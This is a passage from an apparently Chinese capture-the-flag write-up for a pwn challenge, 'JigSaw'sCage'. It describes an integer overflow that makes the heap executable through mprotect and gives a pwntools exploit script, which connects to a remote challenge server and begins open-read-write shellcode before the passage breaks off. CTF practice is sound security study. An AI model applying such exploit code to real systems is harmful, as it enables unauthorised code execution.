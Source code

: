 ### <a class="reference-link" name="JigSaw%E2%80%99sCage"></a>JigSaw’sCage

第一次输入数字时存在溢出，输入`0xe00000000`从而通过if语句的判断并执行`mprotect`修改heap段为`rwx`<br>
接下分别输入三段shellcode配合`jmp`指令执行orw

```
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
#r = process('./JigSAW')
r = remote('47.104.71.220',10273)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(idx):
    r.recvuntil('Choice :')
    r.sendline(str(1))
    r.recvuntil('Index? :')
    r.sendline(str(idx))

def edit(idx, con):
    r.recvuntil('Choice :')
    r.sendline(str(2))
    r.recvuntil('Index? :')
    r.sendline(str(idx))
    r.recvuntil('iNput:')
    r.send(con)

def delete(idx):
    r.recvuntil('Choice :')
    r.sendline(str(3))
    r.recvuntil('Index? :')
    r.sendline(str(idx))

def test(idx):
    r.recvuntil('Choice :')
    r.sendline(str(4))
    r.recvuntil('Index? :')
    r.sendline(str(idx))

def shwo(idx):
    r.recvuntil('Choice :')
    r.sendline(str(5))
    r.recvuntil('Index? :')
    r.sendline(str(idx))


r.recvuntil('Name')
r.sendline('ayoung')
r.recvuntil('Make your Choice:')
r.sendline(str(0xe00000000))

add(0)
add(1)
add(2)
add(3)
shellcode1 = '''
push 0x67616c66
push rsp
pop rdi
push 0
pop rdx
push 2
pop rax
jmp $+0x13
```